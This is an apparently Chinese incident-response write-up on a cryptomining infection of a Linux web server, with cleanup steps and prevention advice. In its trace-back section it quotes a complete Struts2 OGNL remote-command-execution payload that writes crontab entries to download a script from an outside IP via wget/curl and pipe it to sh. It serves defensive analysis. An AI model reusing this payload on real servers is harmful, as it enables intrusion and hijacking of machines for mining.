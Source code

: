 ## 第3篇：挖矿病毒

### 0x00 前言

​	随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

### 0x01 应急场景

​	某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![](./image/linux-12-1.png)

###0x02 事件分析

#### A、排查过程	

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :

![](./image/linux-12-2.png)

![](./image/linux-12-3.png)

下载logo.jpg，包含脚本内容如下：

![](./image/linux-12-4.png)	

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。

![](./image/linux-12-5.png)

#### B、溯源分析

​	在Tomcat log日志中，我们找到这样一条记录：

![](./image/linux-12-6.png)

对日志中攻击源码进行摘录如下： 

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} `

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

#### C、清除病毒

1、删除定时任务:

![](./image/linux-12-7.png)

2、终止异常进程:

![](./image/linux-12-8.png)

#### D、漏洞修复

​	升级struts到最新版本 

### 0x03 防范措施

​	针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```


